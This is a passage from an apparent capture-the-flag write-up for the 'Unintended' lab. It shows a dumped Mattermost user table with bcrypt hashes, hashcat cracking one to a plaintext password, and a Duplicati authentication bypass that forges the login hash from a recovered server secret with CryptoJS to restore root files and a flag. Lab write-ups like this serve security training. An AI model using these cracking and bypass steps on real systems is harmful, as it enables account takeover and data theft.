 4ysgwscx63rybdocgyms4z1ssc | 1705921800007 | 1705921800007 |        0 | system-bot    |                                                              |          |             | system-bot@localhost    | f             |          | System             |          | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705921800007 |                 0 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "", "useAutomaticTimezone": "true"}                 | 
 owxiijbxs3gzbxuoe1xf9rj9oo | 1705922414866 | 1773927824468 |        0 | juank         | $2a$10$XVsJbRoMGb3NmEkOV2bVhuaf2zf2U90z1BH1LR5.9EVphcIClf7aa |          |             | juan@unintended.vl      | f             |          | Juan               | Rathul   | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705922414866 |                 0 |              0 | en     | f         |           | Web Developer | {"manualTimezone": "", "automaticTimezone": "Europe/Stockholm", "useAutomaticTimezone": "true"} | 
 qab9xmeantb5jknnnjnjr7ms9w | 1705921682637 | 1708805941750 |        0 | cadams        | $2a$10$1LN52Ej8HDksuM51/a6yDeLEQsw5F6pOQRYNxNQZEGezBreDaMRC. |          |             | cartor@unintended.vl    | f             |          |                    |          | system_admin system_user | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705921682637 |                 0 |              0 | en     | f         |           |               | {"manualTimezone": "", "automaticTimezone": "Asia/Kolkata", "useAutomaticTimezone": "true"}     | 
 wb8zedmnujfo9kmymyf18ntfre | 1705922381558 | 1708806021702 |        0 | theabbs       | $2a$10$2INgG1HdPQqqvv/.ljUi/uQb5FGfKxRiYWCoZWUZI1ZIeOE0aV0mu |          |             | abbie@unintended.vl     | f             |          | Abbie              | Spencer  | system_user              | f              | {}    | {"push": "mention", "email": "true", "channel": "true", "desktop": "mention", "comments": "never", "first_name": "false", "push_status": "away", "mention_keys": "", "push_threads": "all", "desktop_sound": "true", "email_threads": "all", "desktop_threads": "all"} |      1705922381558 |                 0 |              0 | en     | f         |           | Server Admin  | {"manualTimezone": "", "automaticTimezone": "Asia/Kolkata", "useAutomaticTimezone": "true"}     | 
(10 rows)

```

And I have her creds:

```bash
$2a$10$2INgG1HdPQqqvv/.ljUi/uQb5FGfKxRiYWCoZWUZI1ZIeOE0aV0mu:Abbie1998
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$2INgG1HdPQqqvv/.ljUi/uQb5FGfKxRiYWCoZWUZI1ZI...0aV0mu
Time.Started.....: Thu Mar 19 15:44:51 2026 (1 sec)
Time.Estimated...: Thu Mar 19 15:44:52 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-72 bytes)
Guess.Base.......: File (abbie.passwords)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:      305 H/s (13.05ms) @ Accel:1 Loops:32 Thr:24 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 132/132 (100.00%)
Rejected.........: 0/132 (0.00%)
Restore.Point....: 0/132 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#01...: abbie1950 -> Abbie2015
Hardware.Mon.#01.: Temp: 57c Util: 97% Core:2610MHz Mem:8000MHz Bus:8

Started: Thu Mar 19 15:44:48 2026
Stopped: Thu Mar 19 15:44:54 2026
                                       
```

# Checking the Chat

Here I got another nudge to check the chat with the Juan account and I remember it pointing to a custom chat but apparently the Mattermost DB is hosted on the Postgres on this server?


And seems like Abbs needs some creds?  


Another hint for ther password?  


And I can see she is the admin of this site:


Now the credentials I suspected doesn't work on Gittea:  


But I was able to login back to the Chat as her and I can see her new AD credentials?



Now she seems having access to both servers:  


Now she doesn't posses more rights that what Juan has on this server and as saw before Administrator is the user I need. I will move on to BACKUP server for a moment.

# Bonus flag

Now what I am missing is to get root here and I suspected is same as it was on CPTS with Duplicati, so let's dump the duplicati key from the backup site. I downloaded those files from the FTP share and I got a tips to use this script so I dont't need to install the whole duplicati.

https://docs.duplicati.com/duplicati-programs/command-line-interface-cli-1/recoverytool

So now I can parse them:

```bash
──(millycash㉿kali-bello)-[~/Downloads/duplicati-2.2.0.106_canary_2026-03-06-linux-x64-cli]
└─$ ./duplicati-recovery-tool index /home/millycash/Downloads/Unintended/backups 
Processing 7 files
0: /home/millycash/Downloads/Unintended/backups/duplicati-i48680ba57a084652a109d584aebc63a9.dindex.zip - Filetype Index, skipping
0: /home/millycash/Downloads/Unintended/backups/duplicati-ie324293d766446ddbe27823f52e30d4c.dindex.zip - Filetype Index, skipping
0: /home/millycash/Downloads/Unintended/backups/duplicati-b9d86c254096f4531b0be8e536a59ff07.dblock.zip 1193 hashes found, sorting ... done!
Merging 1193 hashes ... done!
1: /home/millycash/Downloads/Unintended/backups/duplicati-b71dd219377964328aa2c79f4bc7354a5.dblock.zip 2076 hashes found, sorting ... done!
Merging 3269 hashes ... done!
2: /home/millycash/Downloads/Unintended/backups/duplicati-i570def036a8d475c9ec47b861bee206a.dindex.zip - Filetype Index, skipping
2: /home/millycash/Downloads/Unintended/backups/duplicati-20240125T071045Z.dlist.zip - Filetype Files, skipping
2: /home/millycash/Downloads/Unintended/backups/duplicati-ba27818c8bd7a4ea6a506fde8314c48d1.dblock.zip 2477 hashes found, sorting ... done!
Merging 5746 hashes ... done!
Processed 3 files and found 5746 hashes

```

And now restore time:  


Now I was wrong as there is not password saved in the etc file (like for OSCP) instead there there is some secrets:



The article defining this is here: https://github.com/duplicati/duplicati/issues/5197

Here I temporary loaded the CryptoJS and base64 decoded+HEX encoded the secret from the server and i will use that to totally bypass the login page!



Next I intercept the nonce(occurring before pass of the password):  


And now calculating the password hash:

```js
var saltedpwd = '661079bc0fb5b8275ed86a3387dfc25ca7cfb7c32835c5249727e4d6f06eb909'; 
undefined

var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('95FdBPdYFPOy6x2YI+ciQa00iYDP8EBFVlfRU/Y9BGg=') + saltedpwd)).toString(CryptoJS.enc.Base64); 

undefined
console.log(noncedpwd);

VM227:1 ymeMA/hLwlyApz9Y+KeyRmGHaq8jPA1SELvlM1saXYI=
undefined
```

And now I can send it:  


And now I am in!



Now the idea is to dump the whole root folder:  


Now the flag is saved under the folder **"source"**

****

And now I am backupping



And I was able to restore the flag:

```bash
juan@unintended.vl@web:/tmp$ cat flag.txt 
UNINTENDED{c182b2c2fb66201d66355ba4804943ed}
juan@unintended.vl@web:/tmp$ 

```

Now I should be able to read the flag?

&nbsp;

&nbsp;

&nbsp;